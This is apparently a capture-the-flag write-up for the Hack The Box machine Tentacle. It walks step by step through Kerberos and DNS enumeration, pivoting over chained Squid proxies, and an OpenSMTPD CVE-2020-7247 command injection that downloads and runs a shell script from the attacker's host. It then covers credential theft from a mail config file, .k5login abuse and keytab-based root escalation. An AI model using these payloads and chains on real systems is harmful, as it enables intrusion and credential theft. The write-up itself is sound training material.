


# Tentacle
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.224 -T4 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 20:09 BST
Nmap scan report for 10.10.10.224 (10.10.10.224)
Host is up (0.093s latency).
Not shown: 65495 filtered tcp ports (no-response), 36 filtered tcp ports (host-unreach)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds

```
```
└─$ nmap -Pn -p22,53,88,3128 -sC -sV 10.10.10.224 -T4 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 20:12 BST
Nmap scan report for 10.10.10.224 (10.10.10.224)
Host is up (0.12s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open  domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open  kerberos-sec MIT Kerberos (server time: 2023-09-26 19:11:56Z)
3128/tcp open  http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds

```
```
└─$ sudo nmap -Pn -sU 10.10.10.224 -T4 --min-rate 5000
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 20:13 BST
Nmap scan report for 10.10.10.224 (10.10.10.224)
Host is up (0.10s latency).
Not shown: 991 open|filtered udp ports (no-response)
PORT      STATE    SERVICE
53/udp    open     domain
88/udp    open     kerberos-sec
123/udp   open     ntp
17787/udp filtered unknown
20560/udp filtered unknown
21016/udp filtered unknown
40019/udp filtered unknown
44185/udp filtered unknown
49179/udp filtered unknown

```
- `dns`
```
└─$ dig axfr @10.10.10.224
;; communications error to 10.10.10.224#53: timed out
;; communications error to 10.10.10.224#53: timed out

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.224
; (1 server found)
;; global options: +cmd
;; Query time: 175 msec
;; SERVER: 10.10.10.224#53(10.10.10.224) (UDP)
;; WHEN: Wed Sep 27 17:09:26 BST 2023
;; MSG SIZE  rcvd: 56

```
```
└─$ dig realcorp.htb @10.10.10.224

; <<>> DiG 9.18.16-1-Debian <<>> realcorp.htb @10.10.10.224
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20726
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 1d3b122485d1c4e6706e605e651453ed994c22dca6111a8b (good)
;; QUESTION SECTION:
;realcorp.htb.                  IN      A

;; AUTHORITY SECTION:
realcorp.htb.           86400   IN      SOA     realcorp.htb. root.realcorp.htb. 199609206 28800 7200 2419200 86400

;; Query time: 91 msec
;; SERVER: 10.10.10.224#53(10.10.10.224) (UDP)
;; WHEN: Wed Sep 27 17:11:02 BST 2023
;; MSG SIZE  rcvd: 110

```
```
└─$ dig axfr realcorp.htb @10.10.10.224

; <<>> DiG 9.18.16-1-Debian <<>> axfr realcorp.htb @10.10.10.224
;; global options: +cmd
; Transfer failed.
```
- `dnsenum`
```
└─$ dnsenum --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt realcorp.htb
dnsenum VERSION:1.2.6

-----   realcorp.htb   -----                                                                                                                                                                                                                

Host's addresses:                                                                                                                                                                                                                           
__________________                                                                                                                                                                                                                          
Name Servers:                                                                                                                                                                                                                               
______________                                                                                                                                                                                                                              

ns.realcorp.htb.                         259200   IN    A        10.197.243.77

Mail (MX) Servers:                                                                                                                                                                                                                          
___________________                                                                                                                                                                                                                           
Trying Zone Transfers and getting Bind Versions:                                                                                                                                                                                            
_________________________________________________                                                                                                                                                                                           

unresolvable name: ns.realcorp.htb at /usr/bin/dnsenum line 900.                                                                                                                                                                            
        
Trying Zone Transfer for realcorp.htb on ns.realcorp.htb ... 
AXFR record query failed: no nameservers
    
Brute forcing with /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:                                                                                                                                                     
________________________________________________________________________________________                                                                                                                                         
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31
```

- `kerbrute`
```
└─$ ./kerbrute userenum -d realcorp.htb --dc realcorp.htb /usr/share/seclists/Usernames/cirt-default-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/27/23 - Ronnie Flathers @ropnop

2023/09/27 17:24:12 >  Using KDC(s):
2023/09/27 17:24:12 >   realcorp.htb:88

2023/09/27 17:24:27 >  Done! Tested 828 usernames (0 valid) in 15.460 seconds
```

- `ntp`
```
└─$ sudo nmap -Pn --script "ntp*" -sU -sV -p123 realcorp.htb
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 17:27 BST
Nmap scan report for realcorp.htb (10.10.10.224)
Host is up (0.13s latency).

PORT    STATE SERVICE VERSION
123/udp open  ntp     NTP v4 (secondary server)
| ntp-info: 
|_  receive time stamp: 2023-09-27T16:26:39

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds
```
```
└─$ date; ntpdate -q 10.10.10.224
Wed Sep 27 05:30:03 PM BST 2023
2023-09-27 17:29:22.601161 (+0100) -40.729112 +/- 0.083173 10.10.10.224 s10 no-leap
```

- `squid` version `4.11`
  - `srv01.realcorp.htb`
  - user: `j.nakazawa@realcorp.htb` 



## Foothold
- Let's check if `j.nakazawa` is `AS-REP-Roastable` 
```
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa$REALCORP.HTB$0e2ddaebe3ed76c6aa85e8bc$7aa604e7c0c0c585c6605f846cfce4f16b40d26cac17809f054ba04226ca479e19e10c81f1e62a7fe1e50311adb70d48699b9ce5f92d147affb275ee2978fd6bd3ad79c392a034d5b1befa2543592e0855195eec320da94782b579a0e6be3d4e3c63b95bb511216e84e22ebe6bab9fbb82c6ec7a92580215d47f9a5e7b65924d358d06f16c6a55aa940f859302c5fa51cd8a50d949e0b2168f0a9bf676cf850efb5fcae6b71eaa3c10948dd357aa887b2d69581f54200448a949e3a5b47c76f0274092f244f8be56f50ba7a3af76d36450aae88e8daa3c4d77f943e19f
```
- Can't crack it
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash         
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2023-09-27 17:48) 0g/s 7924Kp/s 7924Kc/s 7924KC/s !SkicA!..*7¡Vamos!
Session completed.
```

- We saw [squid-proxy](http://www.squid-cache.org/) on port `3128 `
  - https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid
  - Let's try enumerating it
  - Let's first create a config
```
strict_chain
proxy_dns
[ProxyList]
http 10.10.10.224 3128
```

- Now let's `nmap` 
  - First I tried `10.197.243.77` and `10.197.243.31` (ips from `dnsenum`), but it failed
  - Then I tried `127.0.0.1` and had the results

```
└─$ sudo proxychains -q -f proxy-to-squid.conf nmap --top-ports 1000 -sT -Pn 127.0.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 16:45 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 305.98 seconds
```

- Nothing interesting, except the same `squid` proxy
  - Let's chain the proxies
```
strict_chain
proxy_dns
[ProxyList]
http 10.10.10.224 3128
http 127.0.0.1 3128
```

- Let's `nmap` again
  - `10.197.243.77` works
  - But `10.197.243.31` fails
```
└─$ sudo proxychains -q -f proxy-to-squid.conf nmap --top-ports 1000 -sT -Pn 10.197.243.77
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 16:54 BST
Nmap scan report for 10.197.243.77 (10.197.243.77)
Host is up (0.54s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 555.24 seconds
```
- The same process again
  - Add another proxy in our config
    - `http 10.197.243.77 3128`
  - So current chain is `10.10.10.224 –> 127.0.0.1 –> 10.197.243.77`
  - And run `nmap` again on `10.197.243.31`
```
└─$ sudo proxychains -q -f proxy-to-squid.conf nmap --top-ports 1000 -sT -Pn 10.197.243.31
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 17:07 BST
Nmap scan report for 10.197.243.31 (10.197.243.31)
Host is up (0.65s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 654.09 seconds

```
- Now we see port `80`
  - I opened `firefox` as `proxychains -f proxy-to-squid.conf firefox`
  - Visiting http://10.197.243.31/ shows default page
  - While http://wpad.realcorp.htb/ results in `403`




- But if we check for http://wpad.realcorp.htb/wpad.dat
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks#wpad

```
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT"; 
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```

- We have another subnet
  - Let's scan it 
```
└─$ for i in {1..254}; do (dig +noall +answer @10.10.10.224 -x 10.241.251.$i &); done
113.251.241.10.in-addr.arpa. 259200 IN  PTR     srvpod01.realcorp.htb.
```
- We have another host
  - Let's `nmap` it
```
└─$ sudo proxychains -q -f proxy-to-squid.conf nmap --top-ports 1000 -sT -Pn 10.241.251.113
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 17:36 BST
Nmap scan report for srvpod01.realcorp.htb (10.241.251.113)
Host is up (0.63s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
25/tcp open  smtp

Nmap done: 1 IP address (1 host up) scanned in 646.00 seconds
```
```
└─$ sudo proxychains -q -f proxy-to-squid.conf nmap -p25 -sC -sV -sT -Pn 10.241.251.113
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 17:47 BST
Nmap scan report for srvpod01.realcorp.htb (10.241.251.113)
Host is up (1.2s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello srvpod01.realcorp.htb [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
Service Info: Host: smtp.realcorp.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds

```

- We have `OpenSMTPD 2.0.0` which could be exploited via [CVE-2020-7247](https://vk9-sec.com/opensmtpd-6-6-1-remote-code-execution-smtp_mailaddr-cve-2020-7247/)
  - The [PoC](https://www.exploit-db.com/exploits/47984)
```
└─$ sudo proxychains -f proxy-to-squid.conf nc 10.241.251.113 25
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;ping -c 1 10.10.16.9;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself

TEST
.
250 2.0.0 cd353533 Message accepted for delivery
```
```
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:53:14.282393 IP realcorp.htb > 10.10.16.9: ICMP echo request, id 15, seq 1, length 64
16:53:14.282435 IP 10.10.16.9 > realcorp.htb: ICMP echo reply, id 15, seq 1, length 64
```
- Now, let's get a reverse shell
  - We have to replace the `root` with `j.nakazawa@realcorp.htb` for [PoC](https://www.exploit-db.com/exploits/47984)  to work
  - Playing around with different `cmd` payloads
    - The one that works is `wget <ip>`
```
└─$ sudo proxychains -f proxy-to-squid.conf python3 cve-2020-7247.py 10.241.251.113 25 "wget 10.10.16.9"
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
```
└─$ python3 -m http.server 80                 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.224 - - [30/Sep/2023 17:10:52] "GET / HTTP/1.1" 200 -
```

- Now, let's send a reverse shell payload
  - While troubleshooting manually there are bad chars that `opensmtp` doesn't like, so I had to play around with different payloads
```
└─$ sudo proxychains -f proxy-to-squid.conf python3 cve-2020-7247.py 10.241.251.113 25 "wget 10.10.16.9/shell.sh -O /tmp/shell.sh; bash /tmp/shell.sh"
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```


## User #1
- During enumeration, I found a `.msmtprc` file in `j.nakazawa`'s home directory
  - We have potential creds for `j.nakazawa:sJB}RM>6Z~64_`
```
root@smtp:/home/j.nakazawa# ls -lha
ls -lha
total 16K
drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Dec  9  2020 .
drwxr-xr-x. 1 root       root         24 Dec  8  2020 ..
lrwxrwxrwx. 1 root       root          9 Nov 15  2021 .bash_history -> /dev/null
-rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
-rw-r--r--. 1 j.nakazawa j.nakazawa 3.5K Apr 18  2019 .bashrc
-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8  2020 .msmtprc
-rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
lrwxrwxrwx. 1 root       root          9 Nov 15  2021 .viminfo -> /dev/null
root@smtp:/home/j.nakazawa# cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

- If we try to `ssh`, it fails
```
└─$ sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.10.10.224   
Permission denied, please try again.
```
```
└─$ sudo proxychains -q -f proxy-to-squid.conf sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.197.243.77
Warning: Permanently added '10.197.243.77' (ED25519) to the list of known hosts.
Permission denied, please try again.
```
```
└─$ sudo proxychains -q -f proxy-to-squid.conf sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.197.243.31
Warning: Permanently added '10.197.243.31' (ED25519) to the list of known hosts.
Permission denied, please try again.
```

- But we also saw a `kerberos` running
  - So let's try creds there
  - Change the `/etc/krb5.conf`
```
[libdefaults]
	default_realm = REALCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
	fcc-mit-ticketflags = true

[realms]
	REALCORP.HTB = {
		kdc = realcorp.htb
		master_kdc = realcorp.htb
		admin_server = realcorp.htb
		default_domain = realcorp.htb
	}

[domain_realm]
	.realcorp.htb = REALCORP.HTB
	realcorp.htb = REALCORP.HTB	
	
```

- Now, let's ask for a ticket
  - And we got one
  - Also we might need to run `ntpdate 10.10.10.224` to sync with the box, since `kerberos` requires that
```
└─$ kinit j.nakazawa             
Password for j.nakazawa@REALCORP.HTB: 
                                          
```
```
└─$ klist           
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
09/30/2023 17:33:09  10/01/2023 17:33:09  krbtgt/REALCORP.HTB@REALCORP.HTB
```

- If we now try `ssh` we are asked for password
  - So troubleshooting shows that it can't find `host/10.10.10.224@REALCORP.HTB`
  - To solve this issue, we have to place `srv01.realcrop.htb` to be the first `dns` name in `/etc/hosts/` for the box
  - `10.10.10.224    srv01.realcorp.htb realcorp.htb root.realcorp.htb`
```
└─$ ssh j.nakazawa@10.10.10.224 -vv  
OpenSSH_9.3p2 Debian-1, OpenSSL 3.0.9 30 May 2023
...
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
debug1: Unspecified GSS failure.  Minor code may provide more information
Server host/10.10.10.224@REALCORP.HTB not found in Kerberos database
```

- To `ssh` we had to use specific options found it post below
  - https://uz.sns.it/~enrico/site/posts/kerberos/password-less-ssh-login-with-kerberos.html
```
└─$ ssh -o GSSAPIAuthentication=yes -o GSSAPIDelegateCredentials=yes -o GSSAPIServerIdentity=srv01.realcorp.htb j.nakazawa@REALCORP.HTB
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sat Sep 30 17:50:24 BST 2023 from 10.10.16.9 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ 
```
## User #2
- `linpeas` shows interesting file `/usr/local/bin/log_backup.sh`
  - It is used in `crontab`
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr--. 1 root admin 229 Dec  9  2020 /usr/local/bin/log_backup.sh
-r--r--r--. 1 root root 2762 Aug 17  2020 /usr/share/man/man8/vgcfgbackup.8.gz
-rw-r--r--. 1 root root 2670 Dec  8  2016 /usr/share/man/man1/db_hotbackup.1.gz
-rw-r--r--. 1 root root 17740 Dec 24  2020 /usr/share/info/dir.old
...
```
```
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

- Content of the script
```
[j.nakazawa@srv01 tmp]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/                                                                                                                                                           
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

- Let's check permissions
  - We can write to `/var/log/squid/`
```
[j.nakazawa@srv01 tmp]$ ls -ld /var/log/squid/
drwx-wx---. 2 admin squid 41 Dec 24  2020 /var/log/squid/
```
```
[j.nakazawa@srv01 tmp]$ groups
j.nakazawa squid users
```

- We can create a [.k5login](https://www.unix.com/man-page/linux/5/k5login/) file
  - `The  .k5login  file, which resides in a user's home directory, contains a list of the Kerberos principals.  Anyone with valid tickets for a
       principal in the file is allowed host access with the UID of the user in whose home directory the file resides.  One common use is to place
       a .k5login file in root's home directory, thereby granting system administrators remote root access to the host via Kerberos.`
  - The script copies all files from `/var/log/squid/` to `/home/admin` and only deletes `access.log`, `cache.log` files
  - We can `ssh` as `admin`
```
[j.nakazawa@srv01 tmp]$ cd /var/log/squid/
[j.nakazawa@srv01 squid]$ echo "j.nakazawa@REALCORP.HTB" > .k5login
```

- And we can `ssh` as `admin`
```
└─$ ssh admin@10.10.10.224     
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Sat Sep 30 19:39:01 2023
[admin@srv01 ~]$ 
```
## Root
- Enumerate 
```
[admin@srv01 home]$ find / -user admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/home/admin/squid_logs.tar.gz.2023-09-30-194001
/var/spool/mail/admin
[admin@srv01 home]$ ls -lha /var/spool/mail/admin
-rw-rw----. 1 admin mail 0 Dec  9  2020 /var/spool/mail/admin
[admin@srv01 home]$ find / -group admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/home/admin/squid_logs.tar.gz.2023-09-30-194001
/home/admin/squid_logs.tar.gz.2023-09-30-194101
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```

- The file `/etc/krb5.keytab` looks interesting
  - https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5/doc/krb5-install/The-Keytab-File.html
  - `All Kerberos server machines need a keytab file, called /etc/krb5.keytab, to authenticate to the KDC. The keytab file is an encrypted, local, on-disk copy of the host's key. The keytab file, like the stash file (Create the Database) is a potential point-of-entry for a break-in, and if compromised, would allow unrestricted access to its host. The keytab file should be readable only by root, and should exist only on the machine's local disk. The file should not be part of any backup of the machine, unless access to the backup data is secured as tightly as access to the machine's root password itself. `
  - We can list the principals
    - https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-user/What-is-a-Kerberos-Principal_003f.html
    - The `kadmin` was added with `changepw` and `admin` privileges
```
[admin@srv01 home]$ klist -k
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

- Since we can read the `keytab` file, we can use any of the principals listed in it
  - [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html)
```
[admin@srv01 home]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

- Since we are `admin` of the `kerberos` database, we can add `root` principal and switch to `root`
  - To switch the user we use [ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)
  - One-liner: `kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw pentest root"`
```
kadmin:  add_principal root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
root@REALCORP.HTB
kadmin:  exit
[admin@srv01 home]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 home]#
```